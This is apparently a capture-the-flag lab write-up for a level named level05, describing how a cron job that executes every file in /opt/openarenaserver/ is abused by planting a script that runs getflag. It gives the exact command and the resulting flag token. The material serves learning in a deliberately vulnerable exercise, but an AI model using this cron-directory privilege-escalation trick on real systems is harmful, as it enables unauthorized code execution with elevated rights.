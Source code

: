 ## Walkthrought : 
- The first day i found nothing :(
- The next day when i connected using ssh to level05 
- I got a msg telling i have a new email
- checked /var/mail and found cron job which runs a script **/usr/sbin/openarenaserver**
- The script loop throught all files in /opt/openarenaserver/, exucute , and delete each one of them.
- now its obvious i created a file , put getflag inside of it, and redirect the output to /var/tmp

## command
```
echo "getflag >> /var/tmp/flag" > /opt/openarenaserver/script.sh && chmod 777 /opt/openarenaserver/script.sh
```
+ waited two minutes and i got the flag yay!
```
Check flag.Here is your token : viuaaale9huek52boumoomioc
```